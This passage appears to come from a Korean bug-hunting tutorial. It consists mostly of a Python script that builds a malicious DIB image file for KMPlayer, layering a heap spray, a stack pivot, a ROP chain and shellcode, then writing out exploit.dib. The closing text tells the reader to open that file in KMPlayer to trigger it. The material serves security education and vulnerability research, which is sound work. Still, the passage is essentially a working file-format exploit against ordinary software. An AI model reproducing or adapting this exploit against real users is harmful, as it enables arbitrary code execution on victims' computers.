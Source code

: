 ```python
payload += head +'aa'
payload += spray * offset1
payload += (heap_to_heap + stack_to_heap) * (0x400000 * 2 / 8)
payload += pivot * ((up(BITMAPINFOHEADER['biSizeImage']) - len(payload) - offset2 - 0x1000 - len(tail)) / 4)
payload += ret * (0x20000 / 4)
payload += rop_chain
payload += shellcode
payload += spray * (up(BITMAPINFOHEADER['biSizeImage']) - len(payload)) #dummy
payload += tail

exploit = ''

for key in BITMAPFILEHEADER.keys() :
	exploit += BITMAPFILEHEADER[key]

for key in BITMAPINFOHEADER.keys() :
	exploit += BITMAPINFOHEADER[key]

exploit += payload

f = open('./exploit.dib', 'wb')
f.write(exploit)
f.close()
```

그리고 이 파이썬 스크립트를 실행시켜 떨궈진 `exploit.dib` 파일을 KMPlayer 에 넣어 실행하면!!!!

![bughunting-tutorials-part4/image--076.png](bughunting-tutorials-part4/image--076.png)
